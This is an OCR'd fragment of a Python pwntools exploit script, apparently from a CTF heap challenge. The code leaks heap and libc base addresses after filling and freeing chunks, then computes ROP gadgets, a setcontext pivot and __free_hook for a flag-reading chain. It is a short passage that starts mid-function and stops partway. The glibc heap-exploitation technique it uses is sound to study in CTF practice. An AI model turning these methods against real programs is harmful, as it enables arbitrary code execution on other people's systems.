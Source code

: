 ```python
    msg.actionid = 4

    msg.msgidx = idx

    msg.msgsize = 1

    msg.msgcontent = b'a'

    serialized_msg = msg.SerializeToString()

    sa(b'now: \n', serialized_msg)

 

for i in range(1, 10):

    add(i, 0xf0, b'a'*0xf0)

for i in range(1, 9):

    free(i)

show(8)

p.recv(0x38)

heap_base = u64(p.recv(8)) - 0x1470

rl(b'\x7f')

libc_base = get_addr() - 0x1ecbe0 #

 

rax = libc_base + 0x36174

rdi = libc_base + 0x23b6a

rsi = libc_base + 0x2601f

rdx = libc_base + 0x142c92

rsp = libc_base + 0x2f70a

ret = libc_base + 0x22679

syscall = libc_base + 0x2284d

 

mov_rdx_rdi_ = libc_base + 0x151990

setcontext = libc_base + 0x54F5D 

buf = heap_base + 0x3000

flag = heap_base + 0x2088

 

free_hook = libc_base + libc.sym['__free_hook']

add(10, 0x20, b'a')
```